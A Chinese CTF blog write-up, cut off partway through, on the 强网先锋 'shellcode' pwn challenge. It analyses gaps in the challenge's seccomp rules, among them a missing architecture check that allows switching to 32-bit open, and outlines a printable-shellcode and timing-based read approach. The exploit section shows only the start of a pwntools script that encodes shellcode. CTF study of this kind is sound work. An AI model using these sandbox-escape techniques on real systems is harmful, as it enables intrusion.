 ```yaml
---
title: 强网先锋 shellcode
date: 2021-07-09 22:52:34
updated: 2021-07-14 10:02:34
tags:
  - pwn
  - seccomp
  - shellcode
categories:
  - pwn
keywords: this the keywords
description: 挺难的 强网先锋 shellcode
top_img:
comments:
cover:
toc:
toc_number:
copyright:
copyright_author:
copyright_author_href:
copyright_url:
copyright_info:
mathjax:
katex:
aplayer:
highlight_shrink:
aside:
---
```



### seccomp规则
![](https://z3.ax1x.com/2021/07/14/Wes4E9.png) 
值得注意的是
* 没有检查架构
* 没有检查sys_num是否越界
* 只有read,没有write
* 有系统调用号为5的 可切换到32位open
### 思路
1. 可打印的shellcode1 完成read() jmp 接着就能控制执行流
2. 用汇编边写边调 完成在 32bit open 64bit write 延时爆破
### EXP
看了几个大佬的exp 复写了这个 因为这个exp条件要求低，更可控，会把参考的大佬内容放在下面

```python
#!/usr/bin/env python
import os
import time
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def toPrintable(raw):
    with open("/tmp/raw","wb") as f:
        f.write(asm(raw,arch='amd64'))
    result = os.popen("python2 ~/tools/alpha3/ALPHA3.py x64 ascii mixedcase rbx --input=/tmp/raw").read()
    print("[*] Shellcode %s"%result)
    return result
```